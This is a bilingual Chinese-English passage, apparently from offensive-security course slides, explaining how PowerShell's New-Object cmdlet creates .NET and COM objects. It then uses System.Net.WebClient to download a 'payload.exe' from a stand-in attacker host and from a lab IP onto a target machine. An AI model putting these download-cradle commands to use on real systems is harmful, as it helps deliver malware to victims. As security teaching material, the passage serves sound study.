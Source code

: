 这种能力使得 PowerShell 不仅仅是一个简单的脚本语言，而是一个强大的编程环境，能够利用 .NET 的庞大生态系统，执行复杂和高级的任务。

The passage discusses how to use the `New-Object` cmdlet in PowerShell to create and manipulate objects, thereby expanding the capabilities of PowerShell scripts. Here’s a detailed explanation:

1. **Using Built-in cmdlets:** PowerShell comes with many built-in cmdlets that allow you to access and manipulate a wide range of objects. These objects could be system processes, files, configuration settings, and more.

2. **Creating .Net Objects:** The `New-Object` cmdlet enables you to create instances of .NET Framework objects. This means that you can directly utilize various classes and methods from the .NET Framework within your PowerShell scripts, greatly enhancing PowerShell's functionality and flexibility.

3. **Methods of Creating Instances:**
   - **.Net Framework Objects:** You can create instances of .NET classes by specifying their fully qualified names. For example, if you want to create a DateTime object, you can use `New-Object System.DateTime`.
   - **COM Objects:** You can also create instances of COM objects by specifying the `ProgID` (Program ID) of the COM object. COM objects are typically used for interacting with older programs or systems.

4. **Linked Resources:** The provided links lead to Microsoft's official documentation, which further explains the usage of the `New-Object` cmdlet and specifics on how objects can be created through .NET types or COM objects.

This capability makes PowerShell much more than a simple scripting language; it transforms it into a powerful programming environment that can leverage the vast ecosystem of .NET to perform complex and advanced tasks.

+ As an example of creating a basic object based off of a .NET class with the “New-Object” cmdlet, we can use the “Net.WebClient” .NET system class to download a file to a target system with the following code:

+ 作为使用“New-Object” cmdlet 基于 .NET 类创建基本对象的一个例子，我们可以使用 .NET 系统类“Net.WebClient”来下载文件到目标系统，代码如下：

```
PS C:\> $webclient = New-Object System.Net.WebClient
PS C:\> $payload_url = "https://attacker_host/payload.exe"
PS C:\> $file = “C:\ProgramData\payload.exe"
PS C:\> $webclient.DownloadFile($payload_url,$file)
```

```
PS C:\Windows\system32> $webclient = New-Object System.Net.WebClient
PS C:\Windows\system32> $payload_url = "http://192.168.117.128:8000/payload.exe"
PS C:\Windows\system32> $file = "C:\tmp\payload.exe"
PS C:\Windows\system32> $webclient.DownloadFile($payload_url, $file)
```

In the example on the previous slide (line by line):
1. We create a variable called “$webclient” which instantiates the “System.Net.WebClient” .NET class, which is used to create a web client.
2. We then create another variable ($payload_url), which is the url to our payload.
3. The “$file” variable is then used as the location to which we want to save the payload on the target system.
4. And finally, we call the $webclient” variable with the “DownloadFile” method which downloads our payload.exe to the target.
